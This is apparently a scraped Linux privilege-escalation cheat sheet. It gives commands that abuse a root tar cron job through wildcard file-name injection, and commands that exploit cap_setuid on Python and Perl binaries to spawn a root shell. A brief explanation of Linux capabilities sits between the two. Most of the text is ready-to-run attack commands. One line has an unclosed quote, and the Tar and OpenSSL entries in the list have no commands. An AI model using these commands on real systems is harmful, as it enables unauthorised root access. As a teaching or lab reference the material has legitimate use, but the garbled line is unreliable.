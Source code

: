Privilege Escalation via Tar Cron Job

```
cat /etc/crontab
Output Example: */1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*
cd /var/www/html/
echo "chmod +s /bin/bash" > priv.sh
echo "" > "--checkpoint-action=exec=bash priv.sh
echo "" > --checkpoint=1
tar cf archive.tar *

// If it does not work , replace "bash" with "sh"
```


# Capabilities

Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0 (The root user, and only the root user, has UID 0).

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

Essentially, the goal of capabilities is to divide the power of 'root' into specific privileges, so that if a process or binary that has one or more capability is exploited, the potential damage is limited when compared to the same process running as root.

Capabilities can be set on processes and executable files. A process resulting from the execution of a file can gain the capabilities of that file.

- Python
- Perl
- Tar
- OpenSSL

Python

```
getcap -r / 2>/dev/null         
/usr/bin/python2.6 = cap_setuid+ep
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami

OR

getcap -r / 2>/dev/null  
/usr/bin/python3 = cap_setuid+ep
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami
```

Perl

```
getcap -r / 2>/dev/null         
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
id && whoami
```
